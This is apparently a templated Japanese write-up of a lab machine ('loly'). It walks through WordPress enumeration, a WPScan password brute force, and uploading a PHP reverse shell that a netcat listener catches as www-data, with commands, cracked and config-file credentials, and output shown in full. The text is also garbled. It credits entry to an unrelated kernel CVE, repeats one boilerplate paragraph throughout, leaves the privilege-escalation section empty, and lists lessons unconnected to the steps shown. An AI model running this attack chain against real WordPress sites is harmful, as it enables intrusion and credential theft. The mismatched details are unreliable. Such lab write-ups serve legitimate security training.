

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | Web application and exposed network services |
| 主な侵入経路 | Web RCE (CVE-2017-16995) |
| 権限昇格経路 | Local enumeration -> misconfiguration abuse -> root |

## 認証情報

認証情報なし。

## 偵察

---
💡 なぜ有効か  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## 初期足がかり

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip
```

```bash
✅[2:09][CPU:13][MEM:62][TUN0:192.168.45.166][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -r --timeout 3 --no-state -s 200,301,302,401,403 -x php,html,txt --dont-scan '/(css|fonts?|images?|img)/' -u http://$ip

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.178.121
 🚫  Don't Scan Regex      │ /(css|fonts?|images?|img)/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 301, 302, 401, 403]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.12.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, html, txt]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       25l       69w      612c http://192.168.178.121/
200      GET      497l     1474w    28194c http://192.168.178.121/wordpress/
200      GET      384l     3177w    19915c http://192.168.178.121/wordpress/license.txt
200      GET       99l      446w     6744c http://192.168.178.121/wordpress/wp-login.php
200      GET       17l       83w     1295c http://192.168.178.121/wordpress/wp-admin/install.php
200      GET       23l       80w     1265c http://192.168.178.121/wordpress/wp-admin/upgrade.php
200      GET       97l      823w     7278c http://192.168.178.121/wordpress/readme.html
403      GET        7l       11w      178c http://192.168.178.121/wordpress/wp-admin/images/
403      GET        7l       11w      178c http://192.168.178.121/wordpress/wp-admin/css/

```


*キャプション：このフェーズで取得したスクリーンショット*

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
wpscan --url http://loly.lc/wordpress/ --disable-tls-checks --enumerate u,t,p
```

```bash
❌[3:33][CPU:12][MEM:66][TUN0:192.168.45.166][/home/n0z0]
🐉 > wpscan --url http://loly.lc/wordpress/ --disable-tls-checks --enumerate u,t,p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.178.121]
[+] Started: Tue Feb 17 03:34:09 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5 identified (Insecure, released on 2020-08-11).
 | Found By: Rss Generator (Passive Detection)
 |  - http://loly.lc/wordpress/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.5</generator>
 | Confirmed By: Emoji Settings (Passive Detection)
 |  - http://loly.lc/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5'

[+] WordPress theme in use: feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2025-04-21T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.6
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2026-02-07T05:11:00.000Z
 | [!] The version is out of date, the latest version is 5.17.3
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:09 <========================================================================================> (400 / 400) 100.00% Time: 00:00:09
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] feminine-style
 | Location: http://loly.lc/wordpress/wp-content/themes/feminine-style/
 | Last Updated: 2025-04-21T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/feminine-style/readme.txt
 | [!] The version is out of date, the latest version is 3.0.6
 | Style URL: http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css, Match: 'Version: 1.0.0'

[+] twentynineteen
 | Location: http://loly.lc/wordpress/wp-content/themes/twentynineteen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://loly.lc/wordpress/wp-content/themes/twentynineteen/style.css
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/twentynineteen/, status: 500
 |
 | Version: 1.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/twentynineteen/style.css, Match: 'Version: 1.7'

[+] twentyseventeen
 | Location: http://loly.lc/wordpress/wp-content/themes/twentyseventeen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 4.0
 | Style URL: http://loly.lc/wordpress/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 2.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 2.4'

[+] twentytwenty
 | Location: http://loly.lc/wordpress/wp-content/themes/twentytwenty/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://loly.lc/wordpress/wp-content/themes/twentytwenty/style.css
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/twentytwenty/, status: 500
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/twentytwenty/style.css, Match: 'Version: 1.5'

[+] virtue
 | Location: http://loly.lc/wordpress/wp-content/themes/virtue/
 | Last Updated: 2025-11-18T00:00:00.000Z
 | Readme: http://loly.lc/wordpress/wp-content/themes/virtue/readme.txt
 | [!] The version is out of date, the latest version is 3.4.14
 | Style URL: http://loly.lc/wordpress/wp-content/themes/virtue/style.css
 | Style Name: Virtue
 | Style URI: https://kadencewp.com/product/virtue-free-theme/
 | Description: The Virtue theme is extremely versatile with tons of options, easy to customize and loaded with grea...
 | Author: Kadence WP
 | Author URI: https://kadencewp.com/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/virtue/, status: 200
 |
 | Version: 3.4.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/virtue/style.css, Match: 'Version: 3.4.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==========================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] A WordPress Commenter
 | Found By: Rss Generator (Passive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Feb 17 03:34:27 2026
[+] Requests Done: 472
[+] Cached Requests: 20
[+] Data Sent: 127.792 KB
[+] Data Received: 919.305 KB
[+] Memory used: 268.383 MB
[+] Elapsed time: 00:00:18

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
wpscan --url http://loly.lc/wordpress/  -U loly -P /usr/share/wordlists/rockyou.txt -t 50
```

```bash
❌[3:37][CPU:14][MEM:67][TUN0:192.168.45.166][/home/n0z0]
🐉 > wpscan --url http://loly.lc/wordpress/  -U loly -P /usr/share/wordlists/rockyou.txt -t 50
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
cp -p rev.php file.php
```

```bash
✅[2:14][CPU:8][MEM:65][TUN0:192.168.45.166][/tools]
🐉 > cp -p rev.php file.php

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
zip -r file.zip file.php
```

```bash
✅[2:18][CPU:7][MEM:66][TUN0:192.168.45.166][/tools]
🐉 > zip -r file.zip file.php
updating: file.php (deflated 59%)

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
curl -I http://$ip/wordpress/wp-content/banners/file.php
```

```bash
✅[2:35][CPU:9][MEM:67][TUN0:192.168.45.166][/home/n0z0]
🐉 > curl -I http://$ip/wordpress/wp-content/banners/file.php

```

Reverse shell callback succeeded:
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
nc -lvnp 80
```

```bash
❌[2:35][CPU:8][MEM:67][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.121] 39420
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 09:35:32 up  1:46,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

```

Retrieved local.txt:
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
find / -iname local.txt 2>/dev/null
cat /var/www/local.txt
```

```bash
www-data@ubuntu:/$ find / -iname local.txt 2>/dev/null
/var/www/local.txt
www-data@ubuntu:/$ cat /var/www/local.txt
3888ffc0cafb8cf43ffb95cba155e08b
www-data@ubuntu:/$

```

💡 なぜ有効か  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 loly www-data 3014 Aug 20  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
define( 'DB_HOST', 'localhost' );

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
id
su loly
sudo -l
```

```bash
www-data@ubuntu:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/tmp$ su loly
Password:
loly@ubuntu:/tmp$ sudo -l
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

No additional logs saved.

💡 なぜ有効か  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- 本番同等の環境でフレームワークのデバッグモードとエラー露出を検証する。
- 特権ユーザーやスケジューラーが実行するスクリプト・バイナリのファイルパーミッションを制限する。
- ワイルドカード展開やスクリプト化可能な特権ツールを避けるため sudo ポリシーを強化する。
- 露出した認証情報と環境ファイルを重要機密として扱う。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2017-16995: https://nvd.nist.gov/vuln/detail/CVE-2017-16995
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
